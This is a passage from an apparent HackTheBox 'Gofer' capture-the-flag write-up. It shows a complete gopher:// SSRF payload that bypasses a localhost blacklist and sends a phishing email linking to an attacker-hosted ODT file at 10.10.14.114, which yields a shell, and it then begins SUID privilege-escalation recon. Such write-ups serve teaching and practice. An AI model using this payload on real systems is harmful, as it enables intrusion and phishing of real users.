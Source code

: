 After the change, we need to craft the SSRF payload to talk with the SMTP server. Let's see how this can be done. We need to check if gopher is actually available:
<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/ssrf1.png" /></p>
Looks like there's a blacklist in place. Fortunately, there are countless ways for us to try and overcome this (check out this [guide](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypassing-filters){:target="_blank"}). Here is a payload we can try
```
TEST /index.php?url=gopher://2130706433:25/xHELO%20gofer.htb%250d%250a
MAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@
gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker
@site.com%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate
%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject
%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20
magic%20word%20%21%20<a+href%3d'http%3a//10.10.14.114:8000/test.odt>
this</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

For legibility let's decode it.:
```
gopher://2130706433:25 # 127.0.0.1 converted to decimal.
		       # Don't worry, it's RFC compliant!
/xHELO gofer.htb%0d%0a # SMTP commands to send the email
MAIL FROM:<hacker@site.com>%0d%0a
RCPT TO:<jhudson@gofer.htb>%0d%0a # Our target's mail address
DATA%0d%0a
From: [Hacker] <hacker@site.com>%0d%0a
To: <jhudson@gofer.htb>%0d%0a
Date: Tue, 15 Sep 2017 17:20:26 -0400%0d%0a
Subject: AH AH AH%0d%0a
%0d%0a
You didn't say the magic word ! <a href='http://10.10.
14.114:8000/test.odt'>this</a>%0d%0a # A hyperlink via HTML
%0d%0a%0d%0a.%0d%0a
QUIT%0d%0a
```

Remember Jocelyn likes links so we included a link to our ODT document. If everything was written just right, sending this payload will trigger the SSRF:
<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/ssrf2.png" /></p>
<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/ssrf3.png" /></p>

Okay I didn't just show you the same screenshot twice, notice that we obtained a shell. Great.

<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/flag1.png" /></p>

### The Route to Root
Sorry for the pun. Couldn't help myself. Anyway.
Now that we have a foothold, we need to make ourselves root. Let's do some more recon:

<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/stickybits.png" /></p>
A good escalation point would be to look at the available files with SUID. After a quick look around we have some files with sticky bits.
What stands out the most is the `notes` binary that can only be executed by `root` or someone from `dev`.
